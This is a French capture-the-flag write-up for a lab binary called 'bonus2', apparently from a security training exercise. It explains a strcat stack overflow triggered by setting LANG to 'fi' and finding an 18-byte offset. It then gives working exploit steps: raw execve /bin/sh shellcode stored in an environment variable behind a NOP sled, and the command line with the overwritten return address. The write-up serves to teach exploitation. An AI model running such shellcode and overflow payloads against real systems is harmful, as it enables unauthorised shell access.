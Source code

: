 ## bonus2

En désassemblant le binaire on observe deux fonctions: `main()` et
`greetuser()`. On voit également un appel a `getenv("LANG")`, plusieurs appel a `memcmp()`, et un appel a `strcat()` dans la fonction `greetuser()`.

Le binaire prend deux arguments qu'il va copier dans des buffers avec
`strncpy()`.

Les appels a `memcmp()` évalue la valeur de `LANG`, pour les string `nl` et
`fi`, et définis la globale `_language` a `0`, `1` ou `2`.

La string qui est affiché en sortie change selon la valeur de `_language`, mais
l'appel a `strcat()` est éffectué peut importe cette valeur.

Définissont donc la variable d'environnement `LANG` a `fi`, et lancons le
binaire avec gdb.

On va essayer de faire overflow l'appel a `strcat()`.

![image](https://user-images.githubusercontent.com/29956389/90021177-32556200-dcb1-11ea-81cc-3a22d43af3cc.png)

Le segfault est causé par le deuxieme argument. Localisons l'offset:

![image](https://user-images.githubusercontent.com/29956389/90021443-90824500-dcb1-11ea-83f2-604ed34a7c32.png)

![image](https://user-images.githubusercontent.com/29956389/90021555-b871a880-dcb1-11ea-8385-e44c453d2c43.png)

L'offset est a 18.

On insère donc notre shellcode + nopsled dans l'environnement:

`$ echo -ne
'\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80' > /tmp/shellcode.bin`

`$ export SLEDCODE=$(python -c 'print "\x90"*420')$(cat /tmp/shellcode.bin)`

On localise l'adresse du sled:

`(gdb)> x/4s *((char**)environ + 8)`

`> de 0xbffff733 a 0xbffff8fc`

Soit `0xbffff805` vers le milieu. Ce qui nous donne:

`$ ./bonus2 $(python -c 'print [40 bytes de remplissage]') $(python -c 'print [18 bytes de remplissage] + [Adresse nopsled]')`

Soit:

`$ ./bonus2 $(python -c 'print "A"*40') $(python -c 'print "i"*18 +
"\x05\xf8\xff\xbf"')`

![image](https://user-images.githubusercontent.com/29956389/90023240-ca544b00-dcb3-11ea-9769-3236d13ffefd.png)

